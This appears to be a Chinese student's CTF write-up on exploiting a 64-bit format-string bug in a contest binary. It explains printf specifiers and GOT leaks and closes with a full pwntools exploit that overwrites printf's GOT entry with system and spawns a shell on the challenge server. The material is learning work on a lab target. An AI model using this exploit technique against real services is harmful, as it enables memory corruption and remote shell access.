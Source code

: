 #格式化字符串
题目是老计出的校赛题。给了程序和lib库  
ida启动.jpeg f5  
&emsp;&emsp;可以看出read将用户输入的数据存在栈中，而且printf没有对输出的字符串做格式化，可以通过格式化漏洞对内存进行任意读写；  
  
<img src="/images/20181107/0.png" />   

&emsp;&emsp;首先进行一些简单的尝试，用ida找到调用printf函数处，下断点；  
  
<img src="/images/20181107/1.png" />  
 --------------------- 
####先预习一下格式化字符串的利用:
&emsp;&emsp;%c: 输出字符，配上%n可用于向指定地址写数据。  
&emsp;&emsp;%d: 输出十进制整数，配上%n可用于向指定地址写数据。  
&emsp;&emsp;%x: 输出16进制数据，如%i$x表示要泄露偏移i处4节长的16进制数据，%i$lx表示要泄露偏移i处8字节长的16进制数据，32Bit和64Bit环境下一样。  
&emsp;&emsp;%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。    
&emsp;&emsp;%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。    
&emsp;&emsp;
%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100x%10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。  
&emsp;&emsp;
%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。  
  
-----
&emsp;&emsp;输入%p,发现打印出的地址为`0x7ffff7dd2683`，而栈顶的地址为`0x7fffffffdf40` &emsp;(这里我不太明白，为什么写入是从rdi指针指向的偏移量为8的栈地址处开始的，然后printf的打印的内容从这里以前偏移量为8的位置开始。。也就是说输入%8p的时候才打印输入的内容。  
  
<img src="/images/20181107/2.png" />     
  
&emsp;&emsp;尝试了一下`%i$s`，打印偏移量为i的所存地址中的内容。由于可以写入内容到栈中，可以构造`%i$p+ padding*(( i-8 )*8-i) + (要读的地址)` 这样的形式来对指定内容进行读取，这就是格式化字符串中所说的任意读。  
  
&emsp;&emsp;然后尝试了一下`%n`,,pwntools中有fmtstr_payload简易化写入payload的构造，但其局限与32位，由于这题是64位的，还得自己手动打payload，由于基础知识的缺少，这里坑了好久。。尝试了许多次%n输入，gdb 中使用dd查看内存却老是看不到自己想要打印的内容，逐渐认识到以下两点:  
  
1. 通过`%{}x%i$n.format()`的格式写入时，是将前面括号内的十进制数字转换位16进制写入，当通过此格式写入第二个时，构造payload要将后面的地址的部分的值减去前面一次输入的值，也就是第二次程序将会把前一次括号内的值加上后一次括号内的值的和的十六进制作为输入的值，这里又是坑多多，当地址值恰好第一次的值小，第二次的值大，相减作出的负值是行不通的，大概是输入的‘-’号不能被机器理解成负号。。。于是构造payload要么写多种情况，，要么就将payload多试几次= =（可能有别的方法我不知道= =#)  
2. 当写入的值太大时程序会发生崩溃，因此可以使用%hn %hnn来分别写入2个字节、1个字节，此题读出的地址值为5字节，可以分为1，2，2来写入，！！注意把要写入的地址拆分成3个后，要把他们写入各自相应的地址内。
  
  
&emsp;&emsp;接下来的思路就是，算出system在内存中的值，然后把printf在got表中的值替换为system的地址，再把`'/bin/sh\x00'`输入作为printf的参数，实际上就是运行了`system('/bin/sh')`的指令。  
&emsp;&emsp;system的值可以用任意写先获得got表中任意函数在内存中的值，然后根据题目给的lib库的相对偏移计算。（这里又有坑）  
&emsp;&emsp; 我第一次是通过泄露printf的值来计算system的地址，调了半天不行，才发现泄露的并不是printf的地址而是栈中后续的内容，构造的`printf("%i$s",printf_got) `源程序中的`printf(&buf,&buf)`
； 所以是`printf("%i$s","aaaa...printf_got" ,"%i$s","aaaa...printf_got")`&emsp&emsp??  
&emsp;&emsp;总之是打不出来printf的地址，但是换一个函数的地址打就ok  
  
另外学到一个加载题目给的库的方法  
  
<img src="/images/20181107/3.png" />   
  
最后是exp：  
  
    from pwn import *
	#p=process('./pwn6',env={'LD_PRELOAD':'../libc-2.23.so'})


	p=remote("123.206.131.120",10006)

	elf=ELF('./pwn6')
	libc=ELF('libc-2.23.so')
	printf_got=elf.got['printf']
	puts_got=elf.got['puts']
	setbuf_got=elf.got['setbuf']
	puts_offset=libc.symbols['setbuf']-libc.symbols['puts']
	system_offset=libc.symbols['setbuf']-libc.symbols['system']
	print p.recv()
	#gdb.attach(p)
	p.sendline('\x25\x31\x31\x24\x73\x00'+'\x25\x31\x32\x24\x73\x00'+'a'*12+p64(setbuf_got)+p64(printf_got))
	print p.recvline()
	setbuf_addr = u64(p.recvline()[:5]+'\x00\x00\x00')
	log.info('printf:'+hex(setbuf_addr))
	p.sendline('\x25\x31\x31\x24\x73'+'a'*19+p64(puts_got))
	print p.recvline()
	puts_addr = u64(p.recvline()[:5]+'\x00\x00\x00')
	log.info('puts:'+hex(puts_addr))
	log.info('puts_offset:'+hex(setbuf_addr-puts_offset))
	system_addr=setbuf_addr-system_offset
	log.info('system_addr:'+hex(system_addr))
	
	offset_5=(system_addr & 0x0000ffff00000000)>>32
	offset_34=(system_addr& 0x00000000ffff0000)>>16
	offset_12=system_addr & 0x000000000000ffff
	
	
	
	if  offset_12 > offset_34 :
		payload='%{}x%13$hhn'.format(  offset_5  )
		payload+='%{}x%14$hn'.format(   offset_34 - offset_5    )
		payload+='%{}x%15$hn'.format(    offset_12 - offset_34   )
		log.info('positive')
	else:
		payload='%{}x%13$hhn'.format(  offset_5  )
		payload+='%{}x%15$hn'.format(  offset_12 - offset_5  )
		payload+='%{}x%14$hn'.format(    offset_34 - offset_12    )
		log.info('negative')
	
	top=len(payload)
	payload+=(40-top)*'a'+p64(printf_got+0x4)+p64(printf_got+0x2)+p64(printf_got)

	#gdb.attach(p)
	raw_input()
	log.info('payload:'+payload)
	p.send(payload)
	p.recv()
	p.sendline('\x00\x00/bin/sh\x00')
	p.interactive()



最后还有一个要注意的地方，，最后发送的参数这里是`'\x00\x00/bin/sh\x00'`，前面放了几个‘垫片’，是因为说找不到in/sh啥的，估计是偏移的问题，虽然能拿到shell，但是使用次数仅在他的循环次数内，就酱紫。